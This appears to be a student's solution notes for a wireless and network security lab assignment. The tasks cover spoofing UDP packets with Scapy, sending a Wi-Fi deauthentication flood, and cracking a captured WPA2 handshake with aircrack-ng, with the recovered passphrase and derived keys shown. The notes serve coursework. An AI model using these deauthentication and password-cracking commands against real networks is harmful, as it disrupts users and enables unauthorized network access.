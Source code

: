 TODO: rename to .txt

# Assignment 2
## task2-solution:
- Set up a UDP server using nc
	- find own ip address using `ifconfig`
	- `nc -ulp 53`

- Construct UDP datagram
	- `send(IP(src="192.168.0.1", dst="10.0.2.15") / UDP(sport=53,dport=53) / Raw(load="hello world!\n"), count=1)`
	- `IP()` sets router as source and localhost as destination
	- `UDP()` sets source and destination ports (chosen arbitrarily)
	- `Raw()` specifies payload
	- `count` specifies number of packages to send
	- `send()` sends the package.
	- one could also construct package declaring variables, i.e. `a=IP() / a.src="192.168.0.1" / b=UDP(...) / send(a/b/c)`


## task3-solution:
- deauthentication attack
	- find access point MAC address using `arp -a`	-> `ap = "..."`
	- find client MAC address via "about phone" in android settings -> `client = "..."`
	- `deauth_frame = Dot11(addr1=ap, addr2=client, addr3=ap) / Dot11Deauth()`
	- `send(deauth_frame, count=10000)` (or using for loop and `time.sleep(t_in_sec)`)

	- was not able to disconnect phone (maybe due to vm configuration?)
	- but `wireshark(deauth_frame)` classiefies packet correctly as "IEEE 802.11 Deauthentication" 
	

 ## task4-solution:
 -a 
 	- there is no handshake captured so we can't crack the pw.
	
 -b
 	-
	
 -c
 	-
	
	
 ## task5-solution:
 -a 
 	- having captured an handshake, ist possible to get the password by using a dictionary with the password in it.
	- found key: `Induction`
	
 -b
 	- command: - aircrack-ng -w  wordlist.txt wpa2-handshake.pcap
	
	-	#  BSSID              ESSID                     Encryption

   		1  00:0C:41:82:B2:55  Coherer                   WPA (1 handshake, with PMKID)
   		2  65:78:F7:B7:30:84                            Unknown
   		3  65:78:F7:B7:60:A9                            Unknown
   		4  81:F8:47:33:56:BB                            Unknown
   		5  92:F3:65:74:D2:DB                            Unknown
   		6  98:D3:04:64:FA:55                            WPA (0 handshake)
   		7  F4:9F:8F:EA:7B:E6                            Unknown
   		8  FF:FF:FF:FF:FF:3F                            WEP (1 IVs)
		

	- select target `#1` with captured handshake and run the attack:

 - output:      [00:02:09] 3545201/3545298 keys tested (27800.50 k/s) 

      Time left: 0 seconds                                     100.00%

                           KEY FOUND! [ Induction ]


      Master Key     : 85 D8 68 B2 7A A9 42 93 07 EA B5 CA C0 55 B9 D8 
                       09 BE A6 0D E4 C7 0D 94 CD 2B D0 E2 46 87 3E 04 

      Transient Key  : 8F 7F 07 90 A1 8D 75 67 45 ED 23 13 C3 63 5C 4D 
                       80 36 6F 46 94 C1 21 87 C5 C9 6C D9 C1 7B F4 76 
                       2F 58 2D 32 41 47 70 4C 93 E6 3F AB D9 CC E2 A2 
                       A1 92 83 D1 07 88 62 44 82 5A D6 48 AD 24 FF B3 

      EAPOL HMAC     : 44 B9 F6 30 2A 9B AB 15 53 EB A7 E8 8D 5D 0C 1A `

	
 -c
 	
	- GTK: ee22041a83853263474c38811352282071c122359b7c35a7e7d034f3cd6ac565
	
	- KCK: b1cd792716762903f723424cd7d16511
	
	- KEK: 82a644133bfa4e0b75d96d2308358433
	
	- TK:  PTK is needed fpr calulating the TK!
	
	- PMK: A288FCF0CAAACDA9A9F58633FF35E8992A01D9C10BA5E02EFDF8CB5D730CE7BC
	
